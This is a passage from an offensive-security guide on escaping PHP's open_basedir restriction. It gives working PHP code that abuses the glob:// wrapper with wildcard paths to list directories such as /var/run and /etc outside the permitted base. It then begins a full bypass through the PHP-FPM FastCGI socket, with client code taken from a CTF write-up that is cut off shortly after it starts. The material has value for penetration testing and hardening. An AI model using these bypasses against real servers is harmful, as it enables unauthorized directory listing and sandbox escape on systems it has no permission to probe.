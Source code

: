 ### Listing dirs with glob:// bypass

In this first example the `glob://` protocol with some path bypass is used:

```php
<?php
$file_list = array();
$it = new DirectoryIterator("glob:///v??/run/*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
$it = new DirectoryIterator("glob:///v??/run/.*");
foreach($it as $f) {  
    $file_list[] = $f->__toString();
}
sort($file_list);  
foreach($file_list as $f){  
        echo "{$f}<br/>";
}
```

**Note1**: In the path you can also use `/e??/*` to list `/etc/*` and any other folder.  
**Note2**: It looks like part of the code is duplicated, but that's actually necessary!  
**Note3**: This example is only useful to list folders not to read files

### Full open\_basedir bypass abusing FastCGI

If you want to **learn more about PHP-FPM and FastCGI** you can read the [first section of this page](disable_functions-bypass-php-fpm-fastcgi.md).  
If **`php-fpm`** is configured you can abuse it to completely bypass **open\_basedir**:

![](../../../../.gitbook/assets/image%20%28380%29.png)

![](../../../../.gitbook/assets/image%20%28382%29.png)

Note that the first thing you need to do is find where is the **unix socket of php-fpm**. It use to be under `/var/run` so you can **use the previous code to list the directory and find it**.  
Code from [here](https://balsn.tw/ctf_writeup/20190323-0ctf_tctf2019quals/#wallbreaker-easy).

```php
<?php
/**
 * Note : Code is released under the GNU LGPL
 *
 * Please do not change the header of this file
 *
 * This library is free software; you can redistribute it and/or modify it under the terms of the GNU
 * Lesser General Public License as published by the Free Software Foundation; either version 2 of
 * the License, or (at your option) any later version.
 *
 * This library is distributed in the hope that it will be useful, but WITHOUT ANY WARRANTY;
 * without even the implied warranty of MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.
 *
 * See the GNU Lesser General Public License for more details.
 */
/**
 * Handles communication with a FastCGI application
 *
 * @author      Pierrick Charron <pierrick@webstart.fr>
 * @version     1.0
 */
class FCGIClient
{
    const VERSION_1            = 1;
    const BEGIN_REQUEST        = 1;
```